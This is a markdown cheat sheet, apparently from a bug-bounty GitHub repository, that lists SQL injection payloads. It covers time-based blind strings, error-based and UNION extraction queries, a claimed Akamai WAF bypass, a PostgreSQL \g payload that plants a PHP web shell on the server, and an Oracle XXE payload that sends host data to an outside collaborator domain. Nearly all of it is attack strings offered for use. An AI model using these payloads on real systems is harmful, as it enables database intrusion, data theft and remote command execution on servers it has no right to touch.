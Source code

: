 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
" AND (length(database())) = "11 --+-
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
SELECT * FROM(SELECT COUNT(*),CONCAT(database(),'--',(SELECT (ELT(1=1,version()))),'--','_Y000!_',FLOOR(RAND(1)*1))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x) a
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)

## Oracle SQL Injection
```sql
𝗮'||(𝘀𝗲𝗹𝗲𝗰𝘁+𝗲𝘅𝘁𝗿𝗮𝗰𝘁𝘃𝗮𝗹𝘂𝗲(𝘅𝗺𝗹𝘁𝘆𝗽𝗲('<?𝘅𝗺𝗹+𝘃𝗲𝗿𝘀𝗶𝗼𝗻="𝟭.𝟬"+𝗲𝗻𝗰𝗼𝗱𝗶𝗻𝗴="𝗨𝗧𝗙-𝟴"?><!𝗗𝗢𝗖𝗧𝗬𝗣𝗘+𝗿𝗼𝗼𝘁+[+<!𝗘𝗡𝗧𝗜𝗧𝗬 %+𝘅𝘅𝗲+𝗦𝗬𝗦𝗧𝗘𝗠+"𝗵𝘁𝘁𝗽://𝗰𝗰𝘀𝗿𝗵𝟯𝟰𝘃𝟵𝘁𝘄𝗳𝘀𝗻𝗰𝗳𝘀𝗹𝘂𝗽𝘂𝗱𝘀𝟵𝟯𝟬𝟵𝗿𝘅𝗵𝗹𝟲.𝗼𝗮𝘀𝘁𝗶𝗳𝘆.𝗰𝗼𝗺/'||𝗦𝗬𝗦_𝗖𝗢𝗡𝗧𝗘𝗫𝗧('𝗨𝗦𝗘𝗥𝗘𝗡𝗩','𝗛𝗢𝗦𝗧')||'">%𝘅𝘅𝗲;]>'),'/𝗹')+𝗳𝗿𝗼𝗺+𝗱𝘂𝗮𝗹)||'
```

